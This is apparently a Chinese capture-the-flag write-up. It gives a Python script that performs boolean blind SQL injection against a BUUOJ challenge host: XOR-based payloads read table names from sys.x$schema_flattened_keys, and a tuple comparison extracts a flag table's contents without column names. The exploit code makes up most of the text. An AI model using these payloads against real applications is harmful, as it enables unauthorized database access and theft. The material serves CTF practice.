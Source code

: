 # 知识点
### 存储表名的数据库
### 无union的无列名注入
# 思路
看该博客<br />[https://blog.csdn.net/fmyyy1/article/details/115447291](https://blog.csdn.net/fmyyy1/article/details/115447291)
```plsql
import time

import requests
url = 'http://5b8454fb-29b7-4671-8827-83ed87376aad.node4.buuoj.cn:81/index.php'
str = ''
x = 1
for i in range(60):
    min,max = 32, 128
    while True:
        j = min + (max-min)//2
        if(min == j):
            str += chr(j)
            print(str)
            break
        # 爆表名
        payload = {
            'id': f'0^(ascii(substr((select group_concat(table_name) from sys.x$schema_flattened_keys where table_schema=database()),{i},1))<{j})'
        }
        # 无union的无列名爆值
        payload = {
            'id': f"0^((1,'{str+chr(j)}')>(select * from f1ag_1s_h3r3_hhhhh))"
        }
        time.sleep(0.3)
        r = requests.post(url=url,data=payload).text
        if(r'Nu1L' in r):
            max = j
            x += 1
        else:
            min = j
            x += 1
```
